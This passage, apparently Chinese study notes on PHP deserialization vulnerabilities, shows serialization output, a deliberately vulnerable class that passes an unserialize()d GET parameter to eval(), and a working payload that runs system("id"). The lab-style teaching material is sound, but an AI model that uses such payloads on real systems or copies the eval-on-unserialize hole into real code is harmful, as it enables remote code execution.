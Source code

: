    ```php
   echo urlencode($d)."<br />";
   $a = urlencode($d);
   $b = unserialize(urldecode($a));
   var_dump($b);
   
   ?>
   O:4:"test":3:{s:1:"a";s:6:"benben";s:4:"*b";i:666;s:7:"testc";b:0;}
   O%3A4%3A%22test%22%3A3%3A%7Bs%3A1%3A%22a%22%3Bs%3A6%3A%22benben%22%3Bs%3A4%3A%22%00%2A%00b%22%3Bi%3A666%3Bs%3A7%3A%22%00test%00c%22%3Bb%3A0%3B%7D
   object(test)#1 (3) { ["a"]=> string(6) "benben" ["b":protected]=> int(666) ["c":"test":private]=> bool(false) }
   ```

#### 2.反序列化的作用

​	将序列化后的参数还原成实例化的对象。

​	**对象------------序列化------------>字符串**

​	**对象<-----------反序列化------------字符串**

#### 3.反序列化漏洞

反序列化漏洞的成因：反序列化过程中，unserialize() 接受的值（字符串）可控；

通过改变这个值（字符串），得到所需要的代码，及生成的对象的属性值。

通过调用方法，触发代码执行。

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
class test{
    public $a = 'echo "this is test!!";';
    public function displayVar() {
        eval($this->a);
    }
}

$get = $_GET["benben"];
$b = unserialize($get);
$b->displayVar() ;

?>

任务是要把a变为想执行的命令。
```

benben=O:4:"test":1:{s:1:"a";s:13:"system("id");";}

## 4.魔术方法

#### 1.什么是魔术方法
